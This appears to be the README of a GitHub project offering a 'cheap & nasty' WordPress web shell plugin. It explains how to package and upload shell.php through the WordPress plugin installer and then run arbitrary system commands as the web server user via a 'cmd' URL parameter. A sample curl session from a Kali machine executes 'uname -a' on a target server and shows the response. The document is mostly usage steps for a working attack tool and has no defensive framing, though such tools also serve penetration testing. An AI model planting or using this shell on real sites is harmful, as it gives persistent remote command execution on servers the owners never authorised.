 wordpress-shell
===============

Cheap &amp; Nasty Wordpress Command Execution Shell.

Execute Commands as the webserver you are serving wordpress with!
Uploaded shell will probably be at <host>/wp-content/plugins/shell/shell.php

Install
=======
To install the shell, we are assuming you have administrative access to the Wordpress install and can install plugins.
Either upload the zip file located in the `dist/` directory, or create your own archive with:

```bash
$ zip -r shell.zip shell.php
  adding: shell.php (deflated 39%)
  
$ ls -lah shell.zip
-rw-r--r--  1 bob  staff   492B Aug 29 14:17 shell.zip
```

Once uploaded, navigate to `/wp-content/plugins/shell/shell.php` and provide the `cmd` argument.

Sample Usage
============

```bash
root@kali:~# curl -v "http://192.168.0.1/wp-content/plugins/shell/shell.php?$(python -c 'import urllib; print urllib.urlencode({"cmd":"uname -a"})')"
* About to connect() to 192.168.0.1 port 80 (#0)
*   Trying 192.168.0.1...
* connected
* Connected to 192.168.0.1 (192.168.0.1) port 80 (#0)
> GET /wp-content/plugins/shell/shell.php?cmd=uname+-a HTTP/1.1
> User-Agent: curl/7.26.0
> Host: 192.168.0.1
> Accept: */*
> 
* additional stuff not fine transfer.c:1037: 0 0
* HTTP 1.1 or later with persistent connection, pipelining supported
< HTTP/1.1 200 OK
< Date: Thu, 28 Aug 2014 09:28:24 GMT
< Server: Apache/2.2.14 (Ubuntu)
< X-Powered-By: PHP/5.3.2-1ubuntu4
< Vary: Accept-Encoding
< Content-Length: 191
< Content-Type: text/html

Linux wordpress-server 2.6.32-21-generic-pae #32-Ubuntu SMP Fri Apr 16 09:39:35 UTC 2010 i686 GNU/Linux
```
